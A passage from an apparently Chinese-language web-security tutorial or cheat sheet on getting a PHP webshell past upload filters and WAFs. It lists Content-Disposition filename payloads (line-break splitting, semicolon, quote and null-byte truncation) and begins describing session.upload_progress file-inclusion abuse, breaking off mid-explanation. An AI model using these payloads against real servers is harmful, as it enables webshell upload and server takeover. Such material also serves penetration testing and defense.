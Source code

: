 ###### 数据截断

**回车换行截断**

POST请求头的值（不是请求头）是可以换行的,但是中间不得有空行。若WAF匹配文件名到换行截止,则可以绕过

```
Content-Disposition: for
m-data; name="upload_
file"; fi
le
name="sh
ell.p
h
p"
```

**分号截断**

若WAF匹配文件名到分号截止,则可以绕过

```
Content-Disposition: form-data; name="upload_file"; filename="shell.jpg;.php"
```

**引号截断**

php<5.3 单双引号截断特性

```
Content-Disposition: form-data; name="upload_file"; filename="shell.jpg'.php"
Content-Disposition: form-data; name="upload_file"; filename="shell.jpg".php"
```

**00截断**

在url中%00表示ascll码中的0 ,而ascii中0作为特殊字符保留,所以当url中出现%00时就会认为读取已结束。这里使用[0x00]代替16进制的00字符

```
Content-Disposition: form-data; name="upload_file"; filename="shell.php[0x00].jpg"
```

#### 8.利用session.upload_progress

##### 条件

需要知道session文件的存放位置

如果`session.auto_start=On(默认关闭)`则PHP在接收请求的时候会自动初始化Session,不再需要执行session_start()

php>5.4

##### 使用方法

可以利用`session.upload_progress`将恶意语句写入session文件,然后包含session文件

session有一个默认选项`session.use_strict_mode`默认值为`0`此时用户是可以自己定义Session ID的,

比如,我们在Cookie里设置`PHPSESSID=TGAO`,PHP将会在服务器上创建一个文件:`/tmp/sess_TGAO`即使此时用户没有初始化Session,PHP也会自动初始化Session 并产生一个键值,这个键值由`ini.get("session.upload_progress.prefix")+由我们构造的session.upload_progress.name值`组成,最后被写入session文件里
